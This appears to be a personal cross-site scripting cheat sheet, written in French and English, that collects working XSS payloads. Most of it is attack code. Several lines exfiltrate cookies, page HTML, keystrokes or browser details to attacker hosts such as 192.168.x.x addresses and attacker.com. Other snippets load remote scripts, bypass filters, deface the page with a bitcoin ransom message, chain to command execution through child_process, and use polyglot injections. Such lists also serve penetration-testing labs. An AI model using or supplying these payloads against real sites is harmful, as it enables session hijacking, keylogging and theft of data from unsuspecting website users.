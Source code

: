 
- https://github.com/payloadbox/xss-payload-list
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md

```html
<script class="xss">$('.xss').parents().eq(1).find('a').eq(1).click();$('[data-action=retweet]').click();alert('XSS in X')</script>
```

Load remote script

```html
<script src="http://192.168.45.128/xss.js"></script>
```

Bypasser le mot script filter

```html
<sscriptcript>alert('berty');</sscriptcript>
```

Send Cookie details to us: Session-Hijacking

```js
new Image().src = "http://192.168.75.137/xss.php?cookie="+ escape(document.cookie);
```

```js
fetch("http://192.168.45.128/xss.php?cookie=" + btoa(document.cookie));

<script>
fetch('http://target.com/endpoint.php')
.then(response => response.text())
.then(data => fetch('http://attacker.com/?data' + btoa(data)))
</script>
```


Rediriger l'utilisateur vers un autre site

```js
window.location.replace("https://otherwebsite.com");
```

Modifier la page actuel

```js
document.body.innerHTML = "<center><br><br><br><h1>Oh noez, your are haxed! Send bitcoins quick!</h1></center>";
```

Enregistreur de frappe | Key Logger

```js
document.onkeypress = function(c){ fetch("http://192.168.100.129/?k="+ String.fromCharCode(c.which)); }
document.onkeypress = function(e){ fetch('http://192.168.75.137/log?key=' + btoa(e.key) );}
```

HTML2Canvas

```js
fetch("http://192.168.100.129/?dom="+btoa(document.documentElement.outerHTML));
```

Recuperer le navigateur client

```js
fetch("http://192.168.75.137/?nav="+navigator.userAgent);
```

Polyglottes

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('ErrorDipeua') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Dipeua')//>\x3e
```

XSS => RCE

```js
var sys = require('sys');
var exec = require('child_process').exec;
exec("C:\\Windows\\System32\\cmd.exe", function(error, stdout, stderr){ sys.puts(stdout) });
exec("/bin/bash", function(error, stdout, stderr){ sys.puts(stdout) });
```


```html
<iframe src="javascript:alert(document.domain)">

<img src=x onerror="alert(document.domain)">

"><img src=x onerror=prompt(document.domain);>

#"><img src=/ onerror=alert(document.cookie)>

<svg/onload="alert(document.domain)">

xss">< ! --><svg/onload=alert(document.domain)>

<noscript><p title="</noscript><img src=x onerro=alert(1)>">
```

---

Reflected XSS into HTML context with all tags blocked except custom ones

```js
<dipeau tabindex="1" onfocus="alert(document.cookie)">#1
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

Cette injection crée une balise personnalisée avec l'ID `x`, qui contient un gestionnaire d'événements `onfocus` déclenchant la fonction `alert`. 

Le hachage à la fin de l'URL se concentre sur cet élément dès le chargement de la page, ce qui déclenche l'appel de la charge utile `alert`.


```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a></svg>
```